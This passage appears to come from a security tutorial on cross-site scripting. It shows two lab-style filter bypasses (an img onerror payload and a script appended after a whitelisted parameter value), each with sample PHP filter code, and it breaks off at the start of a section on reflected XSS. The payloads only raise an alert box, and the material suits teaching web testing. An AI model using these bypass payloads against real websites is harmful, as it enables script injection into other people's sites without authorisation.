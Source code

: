 ***

* In some cases, it will not work directly, so we can check the page code to see the conditions of the input.

{% tabs %}
{% tab title="Case 1" %}
Sometimes the script tag will be filtered.

{% code title="Example source code" %}
```php
...
if (stripos ($default, "<script") !== false) {
...
```
{% endcode %}

This could be bypassed using a `img` tag and then putting a bad `src` value which will cause an error. After that, we can handle it with the `onerror` parameter that lets us insert JS Code.

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/?default='></option></select><img src=x onerror='alert("HACKED")'/>
```
{% endcode %}
{% endtab %}

{% tab title="Case 2" %}
Sometimes the input will be filtered with specific values.

{% code title="Example source code" %}
```php
...
switch ($_GET['default']) { 
    case "French": 
    case "English":
...
```
{% endcode %}

This could be bypassed using any of these values at the start of the sentence, and then using a `&` to concatenate the payload of the injection.

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/?default=English&'></option></select><script>alert("HACKED")</script>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## <mark style="color:blue;">Reflected</mark>

The vulnerability occurs when the parameters inputted by the client, are displayed on the screen of the page when the site processes a request.

We can find typical examples of this vulnerability as follows:
